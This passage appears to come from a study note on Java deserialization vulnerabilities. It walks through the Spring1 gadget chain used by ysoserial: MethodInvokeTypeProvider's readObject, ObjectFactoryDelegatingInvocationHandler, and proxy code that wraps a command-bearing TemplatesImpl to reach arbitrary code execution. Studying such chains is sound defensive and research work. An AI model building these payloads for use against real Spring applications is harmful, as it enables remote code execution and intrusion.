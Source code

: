 ```java
	    mv.put(name, value);
	    ...
	}
	UnsafeAccessor.setMemberValues(this, mv);
}
```
There is an constraint that the type of `memberValues` should equals to that of the return type of the method to be hooked.

#### Kick-off : MethodInvokeTypeProvider
`MethodInvokeTypeProvider` class is an inner class of `org.springframework.core.SerializableTypeWrapper`. In its `readObject()`:
```java
private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException {  
   inputStream.defaultReadObject();  
   Method method = ReflectionUtils.findMethod(this.provider.getType().getClass(), this.methodName);  
   this.result = ReflectionUtils.invokeMethod(method, this.provider.getType());  
}
```
If we can control `methodName` and `provider.getType()`, then we can execute any code.
By using the measure introduced [[Java Deserialize Vulnerabilities, ysoserial study#AnnotationInvocationHandler special functionality|here]], we can hook `getType()` to return an object in `Type` class. It is expected to get a `TemplatesImpl` when call `getType()` and invoke its `newTransformer()`. So we need to introduce `ObjectFactoryDelegatingInvocationHandler`.

#### ObjectFactoryDelegatingInvocationHandler
It is an inner class of `org.springframework.beans.factory.support.AutowireUtils`. It is an `InvocationHandler`. Let's look at its `invoke()`:
```java
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {  
    String methodName = method.getName();  
    if (methodName.equals("equals")) {  
        return proxy == args[0];  
    } else if (methodName.equals("hashCode")) {  
        return System.identityHashCode(proxy);  
    } else if (methodName.equals("toString")) {  
        return this.objectFactory.toString();  
    } else {  
        try {  
            return method.invoke(this.objectFactory.getObject(), args);  
        } catch (InvocationTargetException var6) {  
            throw var6.getTargetException();  
        }  
    }  
}
```
The invocation will be delegated to the object returned by `objectFactory`. We can create an `ObjectFactory` proxy and hook `getObject()` method for returning `TemplatesImpl`.
```java
final Object templates = Gadgets.createTemplatesImpl(command);  
  
final ObjectFactory objectFactoryProxy =  
      Gadgets.createMemoitizedProxy(Gadgets.createMap("getObject", templates), ObjectFactory.class);
```
Equip `ObjectFactoryDelegatingInvocationHandler` with this `ObjectFactory` and create a `Type` proxy:
```java
final Type typeTemplatesProxy = Gadgets.createProxy((InvocationHandler)  
      Reflections.getFirstCtor("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler")  
         .newInstance(objectFactoryProxy), Type.class, Templates.class);
```

[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)